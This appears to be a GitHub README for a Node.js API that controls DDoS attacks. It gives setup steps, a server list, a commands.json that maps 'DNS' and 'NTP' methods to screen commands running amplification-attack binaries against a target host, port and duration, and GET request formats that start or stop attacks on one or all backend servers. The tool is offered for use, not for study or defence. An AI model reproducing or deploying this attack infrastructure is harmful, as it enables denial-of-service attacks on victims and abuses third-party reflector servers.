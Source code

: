 <h2>NodeJS API for Layer 3/4 attacks</h2>

<h3>Coded by forky (tg: ***@yfork***)</h3>

<h4>This API is very secure and fast (taking 2x the ping between API and backend, if the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express
```

<h1>Setup:</h1>

<h3>Update servers.json to your servers IP/Ports and names</h3><br>

```json
{
    "alpha": {
        "name": "alpha",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "beta",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json to your methods names and commands</h3><br>

```json
{
    "DNS": "screen -dmS attack_${attack_id} ./dns_amp ${host} ${port} dns.txt 1 250000 ${time}",
    "NTP": "screen -dmS attack_${attack_id} ./ntp_amp ${host} ${port} ntp.txt 1 250000 ${time}",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```
const api_port: Your API HTTP Port
const socket_token: Your secret Token for the TCP Socket
const api_key: Your API Key
const domain_lock: true or false (if its set to true you can only access the API if using the domain on api_domain)
```

<h3>Update socket.js:</h3><br>

```
const socket_port: Your socket port
const socket_token: Your secret Token for the TCP Socket (must be same as api.js)
const allowed_ips: The api.js server IP
```

### Reverse Proxy

We recommend making a reverse proxy using Nginx to use your API:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:3000/api/attack;
    }
}
```

Replace `'http://backend:3000/api/attack'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api?host=1.1.1.1&port=80&time=120&method=DNS&server=alpha`

You can set &server=all to launch to all servers

You can stop attacks by sending a GET request to the API using &method=stop

GET `https://api.yourdomain.com/api?host=1.1.1.1&port=80&time=120&method=stop&server=alpha`

